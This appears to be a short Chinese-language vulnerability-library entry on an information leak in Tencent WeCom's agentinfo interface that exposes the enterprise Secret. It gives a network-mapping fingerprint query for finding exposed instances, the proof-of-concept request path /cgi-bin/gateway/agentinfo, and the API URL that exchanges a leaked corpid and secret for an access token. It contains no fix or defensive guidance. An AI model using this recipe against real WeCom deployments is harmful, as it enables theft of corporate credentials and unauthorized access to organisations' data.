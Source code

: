 # 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 漏洞描述

腾讯 企业微信 agentinfo 接口存在信息泄漏漏洞，攻击者通过漏洞可以获取企业微信 Secret

## 漏洞影响

腾讯 企业微信

## 网络测绘

```
web.body="wework_admin.normal_layout"
```

## 漏洞复现

登陆页面

![image-20230828145521417](images/image-20230828145521417.png)

验证POC

```
/cgi-bin/gateway/agentinfo
```

![image-20230828145533569](images/image-20230828145533569.png)

获取Token

```
https://qyapi.weixin.qq.com/cgi-bin/gettoken?corpid=<YOUR_CORPID>&corpsecret=<YOUR_CORPSECRET>
```

